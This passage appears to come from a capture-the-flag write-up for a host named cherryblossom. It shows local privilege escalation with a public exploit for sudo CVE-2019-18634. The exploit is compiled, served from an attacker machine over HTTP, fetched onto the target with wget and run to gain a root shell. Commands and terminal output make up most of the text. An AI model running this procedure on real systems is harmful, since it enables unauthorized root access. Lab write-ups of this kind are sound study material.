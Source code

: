 `ls -lsa sudo-cve-2019-18634`

```bash
total 36
4 drwxr-xr-x 3 root root 4096 Sep 26 10:18 .
4 drwxr-xr-x 4 root root 4096 Sep 26 10:18 ..
8 -rw-r--r-- 1 root root 6311 Sep 26 10:18 exploit.c
4 drwxr-xr-x 8 root root 4096 Sep 26 10:18 .git
4 -rw-r--r-- 1 root root    8 Sep 26 10:18 .gitignore
4 -rw-r--r-- 1 root root 1057 Sep 26 10:18 LICENSE
4 -rw-r--r-- 1 root root  230 Sep 26 10:18 Makefile
4 -rw-r--r-- 1 root root  185 Sep 26 10:18 README.md
```

**For script source:**

[https://github.com/saleemrashid/sudo-cve-2019-18634](https://github.com/saleemrashid/sudo-cve-2019-18634)

`gcc sudo-cve-2019-18634/exploit.c -o exploitpwd`

`cp sudo-cve-2019-18634/exploit.c exploit.c`

`python3 -m http.server 8000`

```bash
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

```bash
johan@cherryblossom:/var/backups$ cd ~
johan@cherryblossom:~$ wget http://10.2.37.37:8000/exploitpwd
--2024-09-26 15:19:10--  http://10.2.37.37:8000/exploitpwd
Connecting to 10.2.37.37:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 16816 (16K) [application/octet-stream]
Saving to: ‘exploitpwd’

exploitpwd                           100%[====================================================================>]  16.42K  48.4KB/s    in 0.3s    

2024-09-26 15:19:11 (48.4 KB/s) - ‘exploitpwd’ saved [16816/16816]

johan@cherryblossom:~$ chmod +x exploitpwd
johan@cherryblossom:~$ cp exploitpwd /tmp/exploitpwd
johan@cherryblossom:~$ cd /tmp
johan@cherryblossom:/tmp$ ./exploitpwd
./exploitpwd: /lib/x86_64-linux-gnu/libc.so.6: version `GLIBC_2.34' not found (required by ./exploitpwd)

johan@cherryblossom:/tmp$ wget http://10.2.37.37:8000/exploit.c
--2024-09-26 15:22:49--  http://10.2.37.37:8000/exploit.c
Connecting to 10.2.37.37:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 6311 (6.2K) [text/x-csrc]
Saving to: ‘exploit.c’

exploit.c                            100%[====================================================================>]   6.16K  --.-KB/s    in 0.001s  

2024-09-26 15:22:50 (8.37 MB/s) - ‘exploit.c’ saved [6311/6311]

johan@cherryblossom:/tmp$ /usr/bin/gcc-7 exploit.c -o cveexploit
johan@cherryblossom:/tmp$ chmod +x cveexploit
johan@cherryblossom:/tmp$ ./cveexploit
[sudo] password for johan: 
Sorry, try again.
# whoami
```